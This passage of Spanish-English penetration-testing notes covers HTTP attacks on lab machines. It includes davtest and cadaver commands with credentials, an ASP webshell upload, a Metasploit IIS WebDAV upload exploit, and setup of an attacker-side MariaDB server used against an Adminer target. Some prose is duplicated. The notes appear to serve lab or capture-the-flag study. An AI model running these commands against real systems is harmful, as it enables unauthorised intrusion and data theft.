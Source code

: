     davtest -url http://10.0.16.177/webdav
    
    davtest -auth bob:password_123321 -url http://10.0.16.177/webdav
    
    cadaver http://10.0.16.177/webdav
    
    put /usr/share/webshells/asp/webshell.asp
    
    Metodo 2
    
    nmap --script http-enum -sV -p 80 10.0.17.27
    
    davtest -url http://10.0.17.27/webdav
    
    davtest -auth bob:password_123321 -url http://10.0.17.27/webdav
    
    Metasploit
    msfconsole -q
    use exploit/windows/iis/iis_webdav_upload_asp
    set RHOSTS 10.0.17.27
    set HttpUsername bob
    set HttpPassword password_123321
    set PATH /webdav/metasploit%RAND%.asp
    exploit
    ```
    
- Adminer
    
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2070.png)
    
    ```c
    apt install mariadb-server-10.3 mariadb-client-10.3
    systemctl start mariadb
    
    mariadb
    The MariaDB root password isn't set by default, so we set it to something 
    non-guessable.Next, we can create a database, and a lower-privileged user that
    can be used to connect to it remotely. Note that we specify backup@10.10.10.187,
    as backup@localhost would be a different user, and wouldn't be able to connect
    from 10.10.10.187. Next, add an exception in the firewall policy to allow 
    connections from 10.10.10.187 to port 3306 locally. apt install 
    mariadb-server-10.3 mariadb-client-10.3 systemctl start mariadb
    
    mysql -u root -p
    ALTER USER 'root'@'localhost' IDENTIFIED BY '<YOUR PASSWORD>';
    CREATE DATABASE backup; USE backup; CREATE TABLE backup (name VARCHAR(2000));
    CREATE USER 'backup'@'10.10.10.187' IDENTIFIED BY '<YOUR PASSWORD>';
    GRANT ALL PRIVILEGES ON backup.* TO 'backup'@'10.10.10.187';
    
    Next, add an exception in the firewall policy to allow connections from 
    10.10.10.187 to port 3306 locally.
    
    ufw allow from 10.10.10.187 to any port 3306
    ```
    
    We now need to configure MariaDB to bind to our tun0 VPN address. Issue the command below to identify the MySQL configuration files.
    